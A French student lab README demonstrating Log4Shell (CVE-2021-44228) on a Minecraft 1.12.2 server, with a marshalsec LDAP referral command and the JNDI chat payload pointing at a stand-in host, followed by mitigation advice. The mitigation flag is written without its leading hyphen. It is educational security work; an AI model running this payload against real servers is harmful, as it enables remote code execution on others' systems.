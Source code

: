 # veille_minecraft_log4shell

Dans ce cours il nous est demandé de mettre en place un LAB et d'exploiter une CVE de niveau 7 minimum puis de trouver un moyen de mitigation de la faille.
Notre groupe a donc choisi la CVE Log4shell de criticité de niveau 10. Ce niveau de criticité a été établit par le Common Vulnerability Scoring System (CVSS). 

## Historique de la vulnérabilité

Log4shell est une vulnérabilité basée sur la librairie java intitulée "Log4j" que l'on retrouve dans de nombreuses application permettant la gestion des logs.
Cette vulnérabilité a tout d'abord été signalée de manière privée à Apache le 24 novembre 2021.
Le 9 décembre 2021, Log4Shell a été publiquement divulgué et a reçu un correctif initial avec la version 2.15.0 d’Apache Log4j.


## Fonctionnement
Log4Shell est une vulnérabilité d’injection Java Naming and Directory Interface (JNDI), et qui peut permettre l'exécution de code à distance (RCE).
Le principe est simple, sur un système affecté un attaquant peu exécuter du code malveillant et récupérer des informations ou faire en sorte que le code exécuté fasse ce que l'attaquant veut qu'il fasse.

## Exploit

Nous allons donc détailler les étapes afin de reproduire une preuve de concept dans un environnement Minecraft.

Tout d'abord nous avons besoin :

- Java Development Kit (JDK) 8
- Serveur Minecraft de version 1.12.2
- Outil d'écoute LDAP

**I- On commence par configurer le serveur Minecraft :**

On télécharge la v.1.12.2 du serveur puis il faut accepter l'accord de la licence en modifiant le fichier nommé 'eula.txt' et en définissant 'eula=true'.
Ensuite on lance le serveur en exécutant `java -jar minecraft_serveur.1.12.2.jar`. 

**II- Préparer le serveur LDAP malveillant :**

On clone le dépôt git suivant : [marshalsec](https://github.com/mbechler/marshalsec)

- la commande suivante est utilisée pour clone un repo : `git clone https://github.com/mbechler/marshalsec`

On compile le projet :

cd marshalsec
     mvn clean package -DskipTests
     
   - Hébergez votre charge utile Java sur un serveur web accessible publiquement.
   - Lancez le serveur LDAP en spécifiant l'URL de votre charge utile :
     
     java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://votre-serveur.com/#Exploit
     

**III- Exploiter la vulnérabilité :**
   - Dans le client Minecraft, connectez-vous au serveur vulnérable.
   - Dans le chat du jeu, envoyez la charge utile suivante :
     
     ${jndi:ldap://votre-serveur.com:1389/Exploit}

   - Si l'exploitation est réussie, le code malveillant hébergé sera exécuté sur le serveur Minecraft.
## Mitigation 

Pour protéger votre serveur contre cette vulnérabilité, mettez à jour la bibliothèque Log4j vers la version 2.16.0 ou supérieure. Si une mise à jour immédiate n'est pas possible, ajoutez l'option suivante aux paramètres JVM lors du démarrage du serveur :

- `Dlog4j2.formatMsgNoLookups=true`

## Bilan

Nous avons pu voir au cours de la réalisation de ce TP que la CVE-2021-44228 appelé log4shell est très puissante et de ce fait très dangereuse. A l'appuie de ces propos nous avons le score de la 
CVE qui est égal à 10 soit le score le plus élevé sur les normes CVSS. 

## Sources utilisées 

https://www.trendmicro.com/fr_fr/what-is/apache-log4j-vulnerability.html
https://github.com/Justin-Garey/Minecraft-Log4j-Exploit
https://medium.com/@hackingvarangian/log4shell-vulnerability-part-1-minecraft-poc-ef770e5800de
